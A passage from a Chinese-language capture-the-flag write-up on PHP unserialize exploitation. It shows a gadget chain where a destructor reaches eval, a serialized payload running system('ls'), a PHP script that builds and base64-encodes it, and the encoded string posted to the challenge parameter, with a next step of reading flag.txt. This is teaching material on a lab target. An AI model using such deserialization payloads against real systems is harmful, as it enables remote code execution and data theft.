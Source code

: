输出后可以得到一串序列化的代码

`O:9:"WelcomeZK":1:{s:8:"ClassObj";O:8:"pearlsky":1:{s:4:"data";s:13:"system('ls');";}}`

当这串代码被post到服务端后就会执行data中的ls命令

但是我们倒回去看源代码

```php
if(isset($_POST['0O0Il10O0'])){
    $a = unserialize(base64_decode($_POST['0O0Il10O0']));
}else{
    print_r("POST , OK?");
};
```

这一段是我们要post data所对应的参数值，但是这串参数已经被base64方法进行了解码，那么我们还需要在我们的脚本中加上base64的encode，防止到最后进行解码时原始的序列化语句无法执行

完整的代码如下

```php
<?php
show_source(__FILE__);
//flag在同目录flag文件中
class WelcomeZK{
    public $ClassObj;
    function __construct(){
        $this->ClassObj = new pearlsky();
    }
    function  __destruct(){
        $this->ClassObj->action();
    }
};
class pearlsky{
    public $data = "system('ls');";
    function action(){
        eval($this->data);
    }
};
$a = new WelcomeZK();
echo base64_encode(serialize($a));


?>
```

当我们在本地运行后可以得到以下base64编码

`Tzo5OiJXZWxjb21lWksiOjE6e3M6ODoiQ2xhc3NPYmoiO086ODoicGVhcmxza3kiOjE6e3M6NDoiZGF0YSI7czoxMzoic3lzdGVtKCdscycpOyI7fX0=`

随后我们使用hackbar对参数进行post

![img](https://cdn.nlark.com/yuque/0/2023/png/39298680/1700366463069-2a592377-719c-4815-9495-e4db6ee78894.png)

我们可以发现系统指令已经可以正常调用，并且已经看到flag对应的文件位于何处，接下来我们对脚本进行一点点改动，将系统命令换成`cat flag.txt`后对序列化语句进行base64编码
